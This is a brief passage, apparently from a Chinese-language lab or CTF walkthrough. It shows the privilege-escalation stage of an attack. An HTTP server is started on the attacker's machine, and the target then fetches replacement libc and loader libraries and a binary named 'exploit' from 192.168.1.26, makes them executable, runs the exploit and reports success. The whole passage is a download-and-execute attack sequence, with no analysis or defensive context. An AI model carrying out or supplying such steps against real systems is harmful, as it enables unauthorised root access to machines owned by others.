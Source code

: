 ```Shell
cd /tmp
python3 -m http.server 7331
```
靶机上下载，放到同样的位置
```Shell
cd /tmp
wget http://192.168.1.26:7331/libc.so.6
wget http://192.168.1.26:7331/ld-linux-x86-64.so.2
chmod 777 ld-linux-x86-64.so.2 libc.so.6
```
重新传可执行文件再执行
```Shell
wget http://192.168.1.26:7331/exploit
chmod +x exploit
./exploit
```
提权成功
